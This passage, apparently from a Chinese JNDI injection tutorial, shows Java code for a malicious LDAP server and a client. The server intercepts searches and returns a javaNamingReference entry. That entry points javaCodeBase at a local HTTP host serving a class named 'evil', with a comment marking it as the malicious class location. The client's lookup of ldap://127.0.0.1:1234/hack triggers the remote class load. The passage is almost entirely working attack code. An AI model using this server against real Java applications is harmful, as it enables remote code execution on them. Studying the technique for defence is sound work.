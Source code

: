 ```java
                1234,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()
        ));
        //创建一个Ldap的操作拦截器
        config.addInMemoryOperationInterceptor(new OperationInterceptor());
        InMemoryDirectoryServer directoryServer = new InMemoryDirectoryServer(config);
        directoryServer.startListening();
   
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor{
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            //恶意类的位置
            String className = "evil";
            String url = "http://127.0.0.1:1098/";

            Entry entry = new Entry(base);
            entry.addAttribute("javaClassName", className);
            entry.addAttribute("javaFactory", className);
            entry.addAttribute("javaCodeBase", url);
            entry.addAttribute("objectClass", "javaNamingReference");

            try {
                result.sendSearchEntry(entry);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            }catch (Exception e){
                e.printStackTrace();
            }
        }
    }
}



```

client客户端：

```java
package JNDI;

import javax.naming.InitialContext;

public class LdapClient {
    public static void main(String[] args) throws Exception {
        InitialContext context = new InitialContext();
        context.lookup("ldap://127.0.0.1:1234/hack");
    }
}


```

